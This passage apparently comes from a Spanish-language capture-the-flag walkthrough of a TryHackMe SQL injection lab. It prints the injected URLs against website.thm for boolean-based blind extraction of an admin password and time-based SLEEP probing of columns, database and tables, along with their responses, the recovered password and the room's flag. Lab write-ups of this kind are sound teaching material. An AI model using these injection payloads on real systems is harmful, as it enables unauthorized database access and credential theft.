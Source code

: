 #### Intentamos adivinar el password
```
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
{"taken":false}

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3845


```
- encontramos : `3845`
#### vamos a loguernos con : `admin` y `3845`

- obtenemos la flag
`THM{SQL_INJECTION_1093}`


## Task 8 Blind SQLi - Time Based

### What is the final flag after completing level four?

#### Tratamos de averiguar el numero de columnas

```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5);--
Request Time: 0.001

https://website.thm/analytics?referrer=aadmin123' UNION SELECT SLEEP(5),2;--
Request Time: 5.001
```

#### Tratamos de averiguar la base de datos

```
https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli%';--
Request Time: 5.002

https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four%';--
Request Time: 5.002

```

#### Tratamos de averiguar las tablas

```

https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name='users';--
Request Time: 5.006
```
